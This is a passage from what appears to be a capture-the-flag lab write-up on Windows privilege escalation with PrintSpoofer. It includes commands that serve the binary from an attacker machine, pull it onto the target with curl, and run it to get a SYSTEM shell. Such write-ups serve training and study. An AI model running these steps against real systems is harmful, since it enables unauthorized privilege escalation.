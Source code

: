 ![20rce](imgs/20rce.png)

### PE on 10.200.90.100 (wreath-pc) - Method 1: PrintSpoofer

- Since we see that the current user `thomas` has the privilege `SeImpersonatePrivilege`, we can try PrintSpoofer PE.
Transfer PrintSpoofer64.exe to the target
- Download the binary from the public repo: `wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe`
- Transfer from Kali to the target
```
# Kali:
python -m http.server 80

# Target:
curl 10.50.91.115/PrintSpoofer64.exe -o c:\users\public\PrintSpoofer64.exe
```
- Trigger it in the target shell:
```
c:\users\public\PrintSpoofer64.exe -i -c cmd
```
